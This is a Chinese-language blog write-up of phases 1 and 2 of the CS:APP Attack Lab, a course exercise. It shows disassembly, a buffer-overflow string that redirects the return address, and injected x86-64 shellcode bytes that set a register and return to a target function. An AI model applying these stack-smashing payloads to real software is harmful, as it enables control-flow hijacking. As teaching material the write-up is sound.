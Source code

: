 ```yaml
---
title: "Attack Lab 一二题题解"
date: 2023-03-12T22:15:45+08:00
markup: pandoc
draft: false
categories:
- 学习笔记
tags:
- 深入理解计算机系统
- 堆栈溢出
---
```


最近看深入理解计算机系统的视频，对他们的 Attack Lab 非常感兴趣，于是就找到程序做了一下，感觉还是蛮有意思的。代码和程序需要在 [cmu](http://csapp.cs.cmu.edu/3e/target1.tar) 的网站上下载。下载后解压就可以开始做题了。

## 第一题

第一题说明了程序里有个存在堆栈溢出的程序 `getbuf` ，我们的目的就是利用 `getbuf` 溢出代码并跳转到函数 `touch1()` 上。

本题基本展示了堆栈溢出攻击最基本的形式。

首先我们使用 `objdump -d ctarget >c.txt` 将 disassem 的代码保存到 `c.txt` 里方便我们查看。

我们首先查找 `getbuf` 函数的位置，大概是这样的：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

代码的意思是，在栈上开辟了一个 40 字节的空间给字符串，并调用 `gets()` 方法写入到栈上。函数完成后，将回退 40 字节，并调用 `ret` 回到原函数。

首先，`ret` 回退地址是保存在当前函数栈之前的，只要我们覆盖了函数栈之前的回退地址，我们就可以跳转到我们想执行的函数上去。

我们首先要获取 `touch1()` 的地址，可以直接在 `c.txt` 里搜索，当然，它就在 `getbuf` 下面。

我们构造一下我们的攻击字符串。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

由于栈空间是低位到高位排布，所以地址也要重新调整一下顺序。前面五行随便什么数字都行，但最后一行必须是地址。

执行：

```shell
./hex2raw <phase.txt | ./ctarget -q
```

结果 PASS 了。

## 第二题

第二题我们要跳转到 `touch2()` 上，但 `touch2()` 是带有参数的，我们不能直接跳转过去。需要首先跳转到我们自己的函数上去，然后再在我们函数上完成参数设置，再跳回去。

这里我们首先要获取 `rsp` 寄存器里存储的字符串地址，这里我们需要借助 gdb 。

用 gdb 打开 ctarget （`gdb --args ctarget -q`），打上断点（`break getbuf`），然后运行至断点（`run`），查看寄存器（`info registers rsp`）即可。

记录下此时的值，这个值减去 `0x28` 就是我们需要的地址。

然后我们构造一下我们的恶意代码：

```assembly
pushq $0x4017ec
mov $0x59b997fa,%rdi
retq
```

第一行是推入 `touch2()` 的地址到堆栈， `rsp` 指针就发生了变动，此时我们 `retq` 就会跳转到 `tocuh2()` 。第二句就是将参数传递给参数寄存器。我们编译该段代码 `gcc -c phase2.s` ，获得 `phase2.o` 文件，使用 `objdump` 查看该文件。

```
0000000000000000 <.text>:
   0:   68 ec 17 40 00          push   $0x4017ec
   5:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   c:   c3                      ret
```

由此我们构建我们的 payload 。

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

需要注意的是，栈空间是从高到低增长的，但代码空间是低到高增长的。因此，之前将 `rsp` 减去 `0x28` ，就是为了获取最低处的地址，由于代码段和栈空间增长方式不一样，所以我们的攻击代码也要对着写。

后面的题目有机会再写。
